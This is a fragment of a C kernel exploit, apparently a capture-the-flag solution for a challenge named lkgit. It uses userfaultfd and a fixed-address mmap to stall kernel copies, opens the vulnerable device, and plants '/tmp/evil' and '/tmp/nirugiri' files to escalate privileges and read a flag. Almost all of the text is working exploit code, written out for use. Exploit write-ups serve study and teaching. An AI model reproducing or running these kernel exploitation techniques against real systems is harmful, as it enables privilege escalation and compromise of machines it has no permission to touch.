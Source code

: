 ```exploit.c
    errExit("userfaultfd");

  // enable uffd object via ioctl(UFFDIO_API)
  uffdio_api.api = UFFD_API;
  uffdio_api.features = 0;
  if(ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
    errExit("ioctl-UFFDIO_API");

  // mmap
  addr = mmap(target_addr, target_len, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0); // set MAP_FIXED for memory to be mmaped on exactly specified addr.
  printf("[+] mmapped @ %p\n", addr);
  if(addr == MAP_FAILED || addr != target_addr)
    errExit("mmap");

  // specify memory region handled by userfaultfd via ioctl(UFFDIO_REGISTER)
  // first step
  if (target_addr == (void*)NO_FAULT_ADDR) {
    uffdio_register.range.start = (size_t)(target_addr + PAGE);
    uffdio_register.range.len = PAGE;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
  } else {
    // second step
    uffdio_register.range.start = (size_t)(target_addr + PAGE);
    uffdio_register.range.len = PAGE;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
  }
  //uffdio_register.mode = UFFDIO_REGISTER_MODE_WP; // write-protection
  if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
    errExit("ioctl-UFFDIO_REGISTER");

  s = pthread_create(&thr, NULL, fault_handler_thread, (void*)uffd);
  if(s!=0){
    errno = s;
    errExit("pthread_create");
  }

  puts("[+] registered userfaultfd");
}
// (END userfaultfd-utils)


int main(int argc, char *argv[])
{
  puts("[.] starting exploit...");
  system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/nirugiri");
  system("echo -ne '#!/bin/sh\nchmod 777 /home/user/flag && cat /home/user/flag' > /tmp/evil");
  system("chmod +x /tmp/evil");
  system("chmod +x /tmp/nirugiri");


  lkgit_fd = open(DEV_PATH, O_RDWR);
	if(lkgit_fd < 0) {
		errExit("open");
	}

  // register uffd handler
  target_addr = (void*)NO_FAULT_ADDR;
  target_len = 2 * PAGE;
  register_userfaultfd_and_halt();
  sleep(1);

  log_object *log = (log_object*)(target_addr + PAGE - (HASH_SIZE + FILE_MAXSZ));
```
